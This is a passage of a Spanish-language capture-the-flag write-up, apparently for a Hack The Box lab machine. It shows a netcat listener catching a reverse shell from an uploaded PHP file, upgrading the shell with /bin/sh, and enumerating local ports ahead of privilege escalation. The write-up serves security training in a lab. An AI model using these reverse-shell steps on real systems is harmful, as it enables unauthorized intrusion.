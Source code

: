 ```
        <script src="js/main.js" type="text/javascript"></script>
</body>
</html>
```

Vemos que ha funcionado aparentemente, vamos a irnos a la web a comprobarlo de esta forma:

```
URL = http://cobblestone.htb/skins/test.php
```

Antes de enviarlo nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora si lo enviamos y volvemos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [10.10.15.50] from (UNKNOWN) [10.10.11.81] 43268
whoami
www-data
```

Veremos que ha funcionado, si intentamos `sanitizar` la `shell` veremos que no podremos ya que no esta permitido `bash` y ningun otro comando, es muy pobre lo que tenemos por lo que haremos algo simple:

```shell
exec /bin/sh -i
```

Con esto obtendremos el `$`, ahora vamos a investigar un poco.

## Escalate user cobble

Investigando un poco veremos los siguiente puertos:

```shell
ss -tuln
```

Info:

```
Netid State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess
udp   UNCONN 0      0            0.0.0.0:69         0.0.0.0:*
udp   UNCONN 0      0               [::]:69            [::]:*
tcp   LISTEN 0      80         127.0.0.1:3306       0.0.0.0:*
tcp   LISTEN 0      128          0.0.0.0:22         0.0.0.0:*
tcp   LISTEN 0      511          0.0.0.0:80         0.0.0.0:*
tcp   LISTEN 0      5          127.0.0.1:25151      0.0.0.0:*
tcp   LISTEN 0      128             [::]:22            [::]:*
```

Nos llama la atencion los puerto del `localhost` entre ellos el `25151`, pero poco podemos hacer con este usuario.
